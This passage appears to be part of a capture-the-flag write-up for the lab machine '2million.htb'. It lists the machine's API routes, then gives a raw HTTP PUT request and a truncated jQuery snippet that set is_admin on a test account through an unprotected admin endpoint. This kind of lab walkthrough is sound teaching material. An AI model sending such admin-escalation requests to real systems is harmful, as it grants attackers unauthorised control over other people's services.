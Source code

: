 After that we can get the list of all API by making `GET` request to `/api/v1`.

```
{
  "v1": {
    "user": {
      "GET": {
        "/api/v1": "Route List",
        "/api/v1/invite/how/to/generate": "Instructions on invite code generation",
        "/api/v1/invite/generate": "Generate invite code",
        "/api/v1/invite/verify": "Verify invite code",
        "/api/v1/user/auth": "Check if user is authenticated",
        "/api/v1/user/vpn/generate": "Generate a new VPN configuration",
        "/api/v1/user/vpn/regenerate": "Regenerate VPN configuration",
        "/api/v1/user/vpn/download": "Download OVPN file"
      },
      "POST": {
        "/api/v1/user/register": "Register a new user",
        "/api/v1/user/login": "Login with existing user"
      }
    },
    "admin": {
      "GET": {
        "/api/v1/admin/auth": "Check if user is admin"
      },
      "POST": {
        "/api/v1/admin/vpn/generate": "Generate VPN for specific user"
      },
      "PUT": {
        "/api/v1/admin/settings/update": "Update user settings"
      }
    }
  }
}
```

Making our email `test@test.com` admin using following payload:

```
PUT /api/v1/admin/settings/update HTTP/1.1
Host: 2million.htb
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:102.0) Gecko/20100101 Firefox/102.0
Content-Type: application/json
Cookie: PHPSESSID=hve5pgt9avmfc3r88bghno7ot5
Upgrade-Insecure-Requests: 1
Sec-GPC: 1
Content-Length: 48

{
    "email":  "test@test.com",
    "is_admin": 1
}
```
OR we can use the following javascript code:
```
$.ajax({
        type: "PUT",
        data: JSON.stringify(e),
        dataType: "appjson",
        contentType: "application/json",
        url: '/api/v1/admin/settings/update',
        success: function (response) {
            console.log(response)
        },
        error: function (response) {
            console.log(response)
```